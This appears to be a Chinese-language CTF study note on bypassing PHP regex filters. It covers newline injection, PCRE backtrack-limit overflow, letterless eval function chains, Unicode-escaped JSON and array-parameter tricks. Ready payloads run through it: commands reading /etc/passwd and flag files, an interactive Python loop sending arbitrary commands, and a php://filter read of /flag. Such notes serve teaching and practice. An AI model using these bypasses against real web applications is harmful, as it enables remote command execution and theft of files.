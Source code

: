 ## **特殊正则绕过1**
```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
#### **1、%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```
其他案例：
```
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
```
传$a=php%0a1


^
#### **2、回溯次数超限绕过**
<https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html>
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:") #/bin/cat /home/rceservice/flag
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)

import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'  # 这里只能回溯100万
res = requests.post("http://challenges.fbctf.com:8085/", data={"cmd":payload})
print(res.text)

```


其他案例：
```
if(preg_match('/.+?ctfshow/is', $f)){ //不要有 字符+ctfshow
    die('bye!');
}
if(stripos($f, 'ctfshow') === FALSE){ //要有ctfshow
    die('bye!!');
}
```
当回溯的次数绕过了25万是preg_match返回的非1和0，而是false，所以可以绕过preg_match函数。
```
import requests
 
url='http://8d380352-394f-4754-8bde-5c906930bcd2.challenge.ctf.show/'
data={
    'f':'very'*250000+'ctfshow'
}
r=requests.post(url=url,data=data).text
print(r)
```


^
## **无字母RCE绕过**
不可大于字符：1、url 。2、异或。3、或。4、与。5、取反
自增


^
## **冷门函数绕过正则**
```
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
```
保留的英文字母和英文()，就是使用函数绕过。
构造：?c=print_r(scandir(pos(localeconv()))); 
得到：Array ( [0] => . [1] => … [2] => flag.php [3] => index.php ) 
现在要读取到倒数第二的文件，使用数组逆序函数 
构造：?c=print_r(array_reverse(scandir(pos(localeconv())))); 
得到：Array ( [0] => index.php [1] => flag.php [2] => … [3] => . ) 
再进行读取指定到第二个 构造：?c=print_r(next(array_reverse(scandir(pos(localeconv()))))); 
源码读取指定的：?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

更多函数参考：
```
each() 返回数组中当前的键/值对并将数组指针向前移动一步
end() 将数组的内部指针指向最后一个单元
next() 将数组中的内部指针向前移动一位
prev() 将数组中的内部指针倒回一位
array_reverse() 以相反的元素顺序返回数组
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)
pos()：返回数组中当前元素的值
scandir()：获取目录下的文件
array_reverse()：将数组逆序排列
next()：函数将内部指针指向下一元素，并输出
print_r(scandir(‘.’)); 查看当前目录下的所有文件名
current() 函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名
```

^
^
## **JSON绕过关键词过滤**
JSON可以使用UNicode的16进制编码绕过。
如
```
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```

^
## **传参变数组绕过**
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
die('Invalid nickname');

这里只需要
nickname=;;;;;
变成
nickname[]=;;;;
即可绕过
```

^
## **大小写绕过**
匹配的小写，可以用大写绕过，特别是类名。
```
if (preg_match('/ctfshow/', $cs))
```